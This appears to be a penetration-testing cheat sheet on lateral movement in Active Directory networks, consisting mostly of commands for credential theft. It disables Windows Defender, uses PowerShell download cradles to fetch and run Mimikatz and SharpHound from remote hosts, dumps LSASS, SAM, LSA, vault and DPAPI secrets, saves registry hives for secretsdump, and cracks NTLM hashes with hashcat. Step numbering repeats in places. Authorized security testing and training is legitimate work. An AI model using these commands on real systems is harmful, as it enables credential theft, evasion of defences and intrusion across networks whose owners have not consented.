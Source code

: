 # Lateral Movement Methodology

### 1) Credentials Dumping and Testing

If we get System/Admin level privileges on the machine, we can dump credentials from the machine to use them for lateral movement on other machines within a network.

This applies mostly to AD networks.

1) Disable Antivirus

        Set-MpPreference -DisableRealtimeMonitoring $True

2) Download mimikatz to target machine. You can use either the Invoke-Mimikatz powershell module, or the executable.

Execute a file in memory using powershell

      IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')

Download executable

      "IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"	

3) Run mimikatz

        .\mimikatz.exe

        privilege::debug

4) Dump LSASS

        sekurlsa::logonpasswords

5) Dump SAM

        lsadump::sam

6) Dump LSA

        lsadump::lsa

7) Windows Vault stored credentials (passwords and auth tokens)

        vault:cred 

8) Web Credentials

        vault::list 

9) Altering LSASS Logic (Prevent LSASS from checking the credential type so we can dump netowrk share credentials, RDP passwords, etc)

        sekurlsa::patch

10) Extract Credentials with DPAPI

        dpapi::cred /in:"%appdata%\Microsoft\Credentials\235BN34JIK5B34IJB345KJN"

Extract the masterkey

        dpapi::masterkey /in:"%appdata%\Microsoft\Protect\S-1-5-21-2532523532532-4234645645-35435634634-1104\cc6ehbf-2871-4afb-adf2-223gferf23"

Using RPC for domain controllers

        dpapi::masterkey /in:"%appdata%\Microsoft\Protect\S-1-5-21-2532523532532-4234645645-35435634634-1104\cc6ehbf-2871-4afb-adf2-223gferf23" /rpc


Final decryption

        dpapi::cred /in:"%appdata%\Microsoft\Credentials\235BN34JIK5B34IJB345KJN"


9) Collect cleartext/ntlm credentials and test them on different machines in the network using different protocols like smb, winrm and rdp for example using netexec

10) SAM Registry Keys

        reg.exe save hklm\sam C:\sam.save

        reg.exe save hklm\system C:\system.save

        reg.exe save hklm\security C:\security.save

Then on Kali machine:

        secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Then crack dumped NTLM hashes with hashcat or do a Pass-the-Hash attack

         sudo hashcat -m 1000 ntlm_hash.txt /usr/share/wordlists/rockyou.txt
